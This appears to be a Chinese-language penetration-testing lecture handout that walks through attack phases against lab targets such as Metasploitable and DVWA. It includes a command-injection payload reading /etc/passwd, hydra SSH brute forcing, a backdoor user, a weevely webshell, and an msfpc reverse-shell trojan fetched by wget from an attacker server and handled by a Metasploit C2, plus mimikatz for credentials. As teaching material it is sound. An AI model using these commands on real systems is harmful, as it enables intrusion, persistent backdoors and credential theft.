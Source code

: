 # 滲透入侵手法講義
## 一、手法流程
* 依作業報告說明
## 二、重點概念
### (一)設計規劃階段
  * 依情蒐結果決定選用滲透技術項目。
### (二)通道準備階段
  * VPN Proxy：外部匿蹤
  * Pivot：內部跳板
### (三)滲透入侵階段
  * 系統入侵
  1. 概念
  > * cve
  > * metasploit
  2. 範例
  > * nmap -> metasploitable -> vsftp
  > * metasploit -> vsftpd payload -> exploit
  * 網站入侵
  1. 概念
  > * owasp top10
  2. 範例
  > * DVWA -> 預設帳密登入 -> 變更安全設定
  > * cmd injection 192.168.0.2; cat /etc/passwd
  * 密碼攻擊
  1. 概念
  > * 暴力、填充、撞庫、破解
  2. 範例
  > * hydra -L users.txt -P pwds.txt ssh://192.168.111.134 -t 4 -vV
  * 社交工程
  1. 概念
  > * 郵件連結、郵件附檔
  > * 社群媒體、水坑式攻擊、捕鯨攻擊
  2. 範例
  > * SetToolkit -> 1 -> 2 -> 3 -> 2 -> 輸入自己ip
### (四)後門佈樁階段
  * 帳戶佈樁
  1. 概念
#### 1.1 利用現行帳號
  > * 思考點：以少用久未用帳號為主
  > * 思考點：密碼可能改變
#### 1.2 Add User
  > * 思考點：技術上如何做到？
  > * 思考點：取名注意事項?
  2. 實作
#### 2.1 in shell: 
  > * adduser badboy #新建帳號
  > * sudo /etc/init.d/ssh start #起動ssg
#### 2.2 from my bash:
  > * ssh badboy@192.168.111.130 #連接
  * 網頁後門
  1. 概念
  > * 運用應用程式自動帶起木馬
  2. 實作
#### 2.1 在攻擊端準備木馬
  > * weevely generate password webshell.php
  > * 木馬檔.php
#### 2.2 派送shell木馬
  > * 攻擊方設定python檔案伺服器(目前資料夾為根目錄)：python2 -m SimpleHTTPServer 8000
  > * 在受害端下載木馬：wget http://攻擊方IP:8000/webshell.php
  > * chmod 777 webshell.php
  > * mv /var/www/dvwa
#### 2.3 從外部連入
  > * weevely 受駭網站url 密碼
  * 系統佈樁
  1. 概念
  > * 運用系統內建自動執行程式功能（如開啟自動執行、定期工作...），設置好木馬，由系統自動啟動執行，以達到長期潛伏目標。
  2. 實作
#### 2.1 攻擊端準備木馬後提供下載
  > * msfpc elf reverse stageless eth0 7777 -v
  > * 產生 (1)木馬檔.elf (2)C2啟動腳本 (3)python檔案伺服器指令
  > * 攻擊方設定python檔案伺服器(目前資料夾為根目錄)：python2 -m SimpleHTTPServer 8080
#### 2.2 攻擊方設置C2服務器
  > * 務必先啟動C2服務器，不然msf木馬啟動沒連接到會直接失效
  > * 貼上後自動在背景執行：msfconsole -q -r '/home/kali/linux-shell-stageless-reverse-tcp-4444-elf.rc'
  > * 輸入jobs檢視背景執行中項目
#### 2.3 受害端植入木馬
  > * 在受害端下載木馬
  > * 整理並測試指令後，貼到shell中執行：wget http://192.168.0.1:8080/linux-shell-stageless-reverse-tcp-4444.elf
  > * chmod 777 linux-shell-staged-reverse-tcp-4444.elf
  > * 啟動木馬：./linux-shell-staged-reverse-tcp-4444.elf
#### 2.4 攻擊方C2服務器收到連線
  > * 看所有作用中會話：sessions
  > * 進入會話互動模式：sessions -i 連線id
  > * 離開會話但不斷線：background
  > * 升級meterpreter木馬：sessions -u 連線id
### (五)分析掌握階段
  * 資料蒐集
  1. Windows
  > * Get-ChildItem -recurs  -Filter *.zip | foreach {$_.Basename}
  2. Linux
  > * whereis:查主要目錄，搭配whereis -l可看有哪些目錄
  > * locate：查目錄快照，搭配updatedb更新快照
  > * Find：條件式篩選
  * 系統分析
  > * meterpreter
  > * 檢視安裝軟體
  * 帳密收集
  > * mimikatz
  * 被動網分
  > * 檢視網卡資料
  > * 檢視網域資料
## 三、課後練習
### 簡單級
* 利用Metasploit對靶機vsftpd弱點進行入侵部設後門
